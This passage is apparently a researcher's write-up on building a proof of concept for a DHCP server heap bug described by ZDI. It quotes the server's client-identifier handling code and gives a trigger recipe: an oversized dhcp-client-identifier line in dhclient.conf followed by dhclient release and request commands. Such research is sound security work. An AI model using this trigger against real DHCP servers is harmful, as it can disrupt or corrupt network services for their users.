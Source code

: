 While writing my PoC back in 2021, I came across several obstacles, like the use of uid and the check of its length.

Since the original ZDI post mentioned nothing of these, I thought it might be helpful to someone by sharing my experiences here.

### Obstacle 1

`DHO_DHCP_CLIENT_IDENTIFIER` is required.

Usually, client id is not sent in a normal DHCPDISCOVER or DHCPREQUEST, so it must be added to the packet specifically.

```
	/* Record the uid, if given... */
	i = DHO_DHCP_CLIENT_IDENTIFIER;
	if (packet -> options [i].len) {
```

### Obstacle 2

`uid` length needs to be larger than `32`.

If the length of the client id, aka uid, is smaller than 32 bytes, it will be stored in the `uid_buf` byte array inside the lease structure.

So we need to make sure its length is larger 32 bytes, to get it stored in a heap buffer malloced in the following code.

```
		if (packet -> options [i].len <= sizeof lt.uid_buf) {
			memcpy (lt.uid_buf, packet -> options [i].data,
				packet -> options [i].len);
			lt.uid = lt.uid_buf;
			lt.uid_max = sizeof lt.uid_buf;
			lt.uid_len = packet -> options [i].len;
		} else {
			lt.uid_max = lt.uid_len = packet -> options [i].len;
			lt.uid = (unsigned char *)malloc (lt.uid_max);
```

As is stated in the new post of ZDI, to trigger this bug, just add `send dhcp-client-identifier "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";` to `/etc/dhcp/dhclient.conf`, and 

```
# release the current ip
sudo dhclient -i -r eth0
# send a DHCPREQUEST
sudo dhclient -i eth0
# send a DHCPRELEASE
sudo dhclient -i -r eth0
```

Obviously, this is a more elegant PoC, and satisfies both the uid existence and length requirements.

## Afterword

